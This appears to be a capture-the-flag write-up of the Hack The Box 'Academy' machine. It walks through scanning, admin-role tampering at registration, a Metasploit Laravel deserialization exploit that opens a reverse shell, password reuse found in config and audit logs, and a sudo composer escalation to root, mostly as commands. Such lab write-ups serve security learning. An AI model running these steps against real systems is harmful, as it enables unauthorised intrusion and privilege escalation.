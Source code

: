 ```yaml
---
layout: post
title:  "Hack The Box - Academy Writeup"
date:   2021-02-27 06:00:00
image: 
  path: /assets/img/htb/HTB-Academy/Header.png
author: Ryan
---
```


- Table of Contents
{:toc .large-only}

*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  

Academy is an Easy level linux machine. Based on the creator and community statistics, we'll likely have a decent amount of enumeration to get through, while working heavily off of existing CVEs, against a realistic environment.  
![Statistics](/assets/img/htb/HTB-Academy/Statistics.png)

## Information Gathering

### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p22,80,33060 -sC -sV -oA Extracts/Academy 10.10.10.215`  
![Nmap](/assets/img/htb/HTB-Academy/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 80 - HTTP**: A basic websever hosting what appears to be an simple website on Apache v2.4.41.
* **Port 33060 - MYSQLX**: MySQL is a freely available open source Relational Database Management System. The X Protocol found here is supported by MySQL Shell, MySQL Connectors, and MySQL Router.

We'll also want to add Academy.htb to our hosts file.

### Academy Site
Navigating to the Academy site on port 80 reveals a very basic landing page and two links to Login.php and Register.php. We can attempt to enumerate additional pages using `gobuster` and a wordlist of commonly used resources.  
`>> gobuster dir -u academy.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php -t 100`  
![Gobuster](/assets/img/htb/HTB-Academy/Recon_Gobuster.png)  

The most promising result of the Gobuster scan is the discovery of an administrative area. Unfortunately, it appears to be behind a login. Let's move on to registering an account and see what we can find once we're authenticated.  
![Register](/assets/img/htb/HTB-Academy/Recon_Register.png)  

Interesting. Capturing the registration request with our `Burpsuite` proxy reveals that in addition to our username and password, there's a `roleid` defaulting to 0. It's possible this flag could differentiate a normal user from an admin, let's change that to a 1?  
![Admin](/assets/img/htb/HTB-Academy/Recon_Admin.png)  

Looks like we were right about the `roleid` and successfully created our own administrative account! Logging into the /admin.php page reveals some usernames (`cry0l1t3` and `mrb3n`), as well as another subdomain `dev-staging-01.academy.htb`. Let's add that to our host file and go there next.

### Dev-Staging-01
Navigating to the dev-staging area, we're shown a dashboard with a large amount of system configuration and application information. There's a lot to dig through, but we should be able to find something interesting to work with.  
![Admin](/assets/img/htb/HTB-Academy/Recon_DevStage.png)

## Foothold
[Laravel](https://laravel.com/) is a framework for building web applications in PHP. Searching Exploit.db leads us to the following [metasploit module](https://www.exploit-db.com/exploits/47129), for a deserialization attack leveraging the App_Key and gaining remote code execution. Based on the configuration findings in our Information Gathering stage, we should have all the pieces needed to make this work.  
```
>> msfconsole
>> use exploit/unix/http/laravel_token_unserialize_exec
>> set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
>> set RHOSTS academy.htb
>> set VHOST dev-staging-01.academy.htb
>> set LHOST tun0
```
![Reverse Shell](/assets/img/htb/HTB-Academy/Foothold_MSFConsole.png)  

### Upgrading our Shell
The initial shell we've got is clunky and not very easy to use. Let's upgrade it with the following commands:  
`>> python3 -c "import pty; pty.spawn('/bin/bash')"`  
`>> export TERM=xterm`

### Looking Around the Box
We appear to be connected as the www-data user, which doesnt have access to the user.txt flag. By checking through the users in the `/home` directory, we can see the flag belongs to `cry0l1t3`, an admin of the site.

## Lateral Movement 1
When we first landed in the box, we found ourself in the `/var/www/html/htb-academy-dev-01/public` directory. Digging around, we eventually find a hidden `.env` file containing much of the same information we already noted in the website. However, by looking in the equivalent file from the `/var/www/html/academy` directory, we discover a few changes; The most important of which is that the database password has been changed to `mySup3rP4s5w0rd!!`.

When users are asked to create a new password for something, it's very common for them to reuse a password from somewhere else. It's familiar to them, and easier to remember. Keeping that in mind, we attempt to authenticate with each of the users we discovered in the `/home` directory, successfully authenticating with our flag holder `cry0l1t3`.  
`>> ssh cry0l1t3@10.10.10.215`  
`>> mySup3rP4s5w0rd!!`

### User Flag
![User Flag](/assets/img/htb/HTB-Academy/User_Flag.png)  

## Lateral Movement 2
With our new user access we can continue to look around the box, checking areas we may not have had access to before. Whether running an automated enumeration script, or by digging through the box manually, we can eventually be led to system logs with more valuable secrets to use.  
`>> ausearch -c su`  
![Logs](/assets/img/htb/HTB-Academy/Lateral2_Logs.png)  

The data we found is currently in hex format, but decoding it reveals the text: `mrb3n_Ac@d3my!`. Lets see if it works for the mrb3n account:  
`>> su mrb3n`  
`>> mrb3n_Ac@d3my!`

## Privilege Escalation
One of the first enumeration commands to run as a new user is `sudo -l`. This allows us to list out the priviledged commands we can run, as long as we have the user's password.  
`>> sudo -l`  
`>> mrb3n_Ac@d3my!`  
![Sudo](/assets/img/htb/HTB-Academy/PrivEsc_Sudo.png)  

Referencing the [GTFOBins](https://gtfobins.github.io/gtfobins/composer/#sudo) page for Composer, we're shown the following escilation steps:  
`>> TF=$(mktemp -d)`  
`>> echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json`  
`>> sudo composer --working-dir=$TF run-script x`  

### Root Flag
![Root Flag](/assets/img/htb/HTB-Academy/Root_Flag.png)  
